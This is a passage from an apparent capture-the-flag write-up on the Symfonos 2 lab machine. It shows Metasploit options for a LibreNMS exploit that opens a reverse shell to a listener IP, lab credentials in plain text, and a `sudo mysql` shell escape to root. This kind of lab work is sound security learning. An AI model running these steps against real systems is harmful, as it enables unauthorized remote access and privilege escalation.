 [@DCUA7](https://twitter.com/DCAU7) said that he found an exploit for `libreNMS` so I searched it on metasploit and found it.

![](images/sym2/libre-exploit.png)

I filled all the options like

```json
"RHOST": symfonos.local,
"LHOST": "192.168.1.107",
"PORT":5000,
"USERNAME": "aeolus",
"PASSWORD": "sergioteamo"
```
and ran the exploit which gave me a reverse shell on it as `cronus`.

![](images/sym2/whoami.png)

The first thing I ran was `sudo -l`

![](images/sym2/sudo.png)

We can run `mysql` as root,cool. Let's see if we find any method for `mysql` on `gtfobin`.

I got root method from [gtfobin/mysql](https://gtfobins.github.io/gtfobins/mysql/).

```bash
$ sudo -u root mysql -e '\! /bin/sh'
```

And finally I got the root.
